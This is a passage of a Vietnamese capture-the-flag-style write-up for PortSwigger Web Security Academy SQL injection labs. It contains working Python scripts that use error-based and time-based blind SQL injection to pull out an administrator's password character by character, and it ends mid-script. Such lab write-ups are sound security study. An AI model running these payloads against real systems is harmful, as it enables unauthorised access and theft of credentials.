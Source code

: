 ```python=
    response = send_requests(payload)
    print(f"🧪 Đang thử với i = {i}", end='\r')
    if response == 500:
        length_pw = i
        print(f"✅ Độ dài password: {i}")
        break

password = ""
for i in range(1, length_pw + 1):
    left = 32 
    right = 126 
    while left <= right: 
        mid = (left + right) // 2
        payload = f"'||(SELECT CASE WHEN (username='administrator' AND ascii(SUBSTR(password,{i},1)) > {mid}) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE ROWNUM=1)||'"
        response = send_requests(payload)
        if response == 500:
            left = mid + 1 
        else: 
            right = mid - 1
    password += chr(left) 
    sys.stdout.write(f"\r✅ Password là: {password}")
    sys.stdout.flush()
``` 

![image](https://hackmd.io/_uploads/B1zLmpjLee.png)

## LAB13 

Lab này chỉ để kích hoạt time delay, và mình phải dò payload qua các loại DB. 

![image](https://hackmd.io/_uploads/H11Jv6sUxx.png)

## LAB14 

Lab này tương tự lab13 nhưng mình phải dùng câu điều kiện để có thể trích xuất dữ liệu. 
Mình thử qua các payload và xác định đây là loại DB postgreSQL. 

```python=
import requests 
import sys
import time 
from urllib.parse import quote 

def send_requests(payload):
    encoded = quote(payload, safe='')
    burp0_url = "https://0aaa0079047a840c82135bfa00bd0098.web-security-academy.net:443/"
    burp0_cookies = {"TrackingId": f"F6yWayH4TIfZGUQN{encoded}", "session": "OTIV0PYgxUc6tWb0op6nWj6OOd26sOPc"}
    burp0_headers = {"Sec-Ch-Ua": "\"Not)A;Brand\";v=\"8\", \"Chromium\";v=\"138\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US,en;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://0aaa0079047a840c82135bfa00bd0098.web-security-academy.net/filter?category=Gifts", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
    start_time = time.time()
    requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
    end_time = time.time() - start_time 
    return end_time 
    
length_pw = 0 
```